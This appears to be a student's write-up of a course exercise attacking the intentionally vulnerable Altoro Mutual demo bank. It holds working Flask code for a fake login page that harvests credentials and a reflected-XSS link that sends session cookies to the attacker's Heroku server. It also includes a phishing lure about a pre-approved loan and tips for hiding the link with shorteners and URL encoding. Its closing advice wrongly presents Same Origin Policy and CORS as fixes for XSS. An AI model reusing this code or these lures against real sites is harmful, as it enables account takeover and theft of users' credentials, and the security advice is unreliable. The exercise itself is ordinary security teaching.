


# Exercise 2 solution
This exercise is realised using Python+Flask and deployed in heroku.(The links are live.)
---
## Question 1 - Reflected XSS when an user is not logged in, stealing their login credentials.
1. Look for a place, where you can conduct a reflected XSS attack against a user who is currently not logged in.
- Design an attack which fakes the Login form to attack users that are currently not logged in. Send the login information to a server of your choice and login the user normally afterwards. (3P)
    1. The user is fed with the fake login page located at :[Login Page](https://mysterious-harbor-34550.herokuapp.com/login)
    The below code is implemented for the fake login and redirection.
    ```python
    @app.route('/login')
        def login():
            form_data='''<form id="foo" method="post" action="/handle_data">
            Username : <input type="text" name='uid' value="admin">
            Password : <input type="password" name='passw' value="">
            <input type="submit" name="submit" value="Submit">
            </form>
            '''
            return form_data
    ```
    2. Once the login data is filled and user clicks on submit, it writes the credentials on a notepad and then redirects the user to Altoro Mutual.
    The below code is implemented for writing the credentials and redirection.
    ```python
    @app.route('/handle_data', methods=['POST'])
        def handle_data():
            if request.method == 'POST':
                req = request.form
                uid = req.get('uid')
                passw = req.get('passw')
                data = 'uid: '+uid+' password: ' + ' ' + strftime("%Y-%m-%d %H:%M:%S", gmtime()) + '\n'
                file = open("/tmp/cookiedata.txt","a")
                file.write(data)
                file.close()
                data={"uid":uid,"passw":passw,"btnSubmit":"Login"}
                
                requests.post('http://demo.testfire.net/doLogin',data)
            
            return redirect('http://demo.testfire.net')
    ```
    3. Viewing the stored credentials is implemented using the below code.You can access the page here:[Exposed Cookie](https://mysterious-harbor-34550.herokuapp.com/expose)
    ```python
        @app.route('/expose')
            def expose():
                datafile = "/tmp/cookiedata.txt"
                if not os.path.isfile( datafile ):
                    return "server contains no data :-("
                with open(datafile) as f:
                    lines = f.readlines()
                data = '<html><BODY>'
                for line in lines:
                    data = data + line + '</br>'
                data = data + '</BODY></html>'
                return data
    ```
    
- How can you hide the attack code to the victim? Implement an exemplary concealment. (1P)\
    When passing the attack code to the victim, the link can be concealed using any URL shortener, further to prevent user to easily recognise the script tags passed within an URL, we can also use URL encoder to conceal most of the script code in the URL.
## Walkthrough and links to view the first exercise.

Step 1: [Login Page](https://mysterious-harbor-34550.herokuapp.com/login)for the login page\
Step 2: [Exposed Login Credentials](https://mysterious-harbor-34550.herokuapp.com/expose) to view the stored user credentials\

/login - displays a form where user has to input login details, once logged in the site automatically redirects to demo.testfire.net
>/login will call /handle_data to store the parameters in a file and then redirect to Altoro Mutual

/expose - used to view all the collected cookie/login data from cookiedata.txt


---
## Question 2 - Reflected XSS when a user is logged in to steal the cookie
2. Look for a place, where you can conduct a reflected XSS attack against a user who is currently logged in.
- Design an attack which reads information about the user and send the information to a server of your choice. (2P)
    1. When the user is already logged in, this link has to be shared with the user, tempting the user to click on the malicious link.
    ```python
        @app.route('/loanapproval')
            def loanapproval():
                crosssite='''<!DOCTYPE html>
                            <html> 
                                <head> 
                                    <style> body { background-color:whitesmoke; } </style> 
                                    <title>Altoro Mutual</title> 
                                </head> 
                                    <body> 
                                
                                    <center> 
                                        
                                        <h1>You are granted loan by Altoro mutual</h1> 
                                        <p> 
                                            Your account has been granted an pre approved loan.
                                            To continue further, please <a href="http://demo.testfire.net/search.jsp?query=%3Cscript%3Evar+xsession%3D%22''' + request.url_root + '''ilikecookies%3F%22.concat%28document.cookie%29%3B+var+xhttp+%3D+new+XMLHttpRequest%28%29%3B+xhttp.open%28%22GET%22%2C+xsession%2C+true%29%3B+xhttp.send%28%29%3C%2Fscript%3E">click here.</a>
                                        </p> 
                                    </center> 
                                </body> 
                            </html>
                            '''
                return crosssite
    ```
    2. Once the user clicks on the link, a redirection is triggered to Altoro Mutual and the cookie is copied and sent back to the our malicious website as a get request to store on a notepad file, using below code.
    ```python
        @app.route('/ilikecookies')
            def ilikecookies():
                data = request.query_string.decode('unicode-escape') + ' ' + strftime("%Y-%m-%d %H:%M:%S", gmtime()) + '\n'
                file = open("/tmp/cookiedata.txt","a")
                file.write(data)
                file.close()
                return data
    ```
    3. Viewing the stored cookie is implemented using the below code. You can access the page here:[Exposed Cookie](https://mysterious-harbor-34550.herokuapp.com/expose)
    ```python
        @app.route('/expose')
            def expose():
                datafile = "/tmp/cookiedata.txt"
                if not os.path.isfile( datafile ):
                    return "server contains no data :-("
                with open(datafile) as f:
                    lines = f.readlines()
                data = '<html><BODY>'
                for line in lines:
                    data = data + line + '</br>'
                data = data + '</BODY></html>'
                return data
    ```
## Walkthrough and links to view the second exercise.
Step 1: [Loan is now approved!](https://mysterious-harbor-34550.herokuapp.com/loanapproval) for the login page\
Step 2: [Exposed Cookie](https://mysterious-harbor-34550.herokuapp.com/expose) to view the stored user credentials

/loanapproval- this is the link that will be shared with as a man in the middle attack, once he clicks here /ilikecookies is called to write cookie data of the user in cookiedata.txt.

/expose - used to view all the collected cookie/login data from cookiedata.txt

---
## Question 3 - 
 3. What would be your advices for the Altoro Mutual bank in order to close the vulnerabilities or to make exploiting them impossible? (2P) 
    - The Altoro Mutual bank site is vulnerable to cross site scripting, if Same Origin Policy is implemented, then the exploits could be avoided.
    
    - Even if CORS is implemented, the sensitive data will not be vulnerable.
    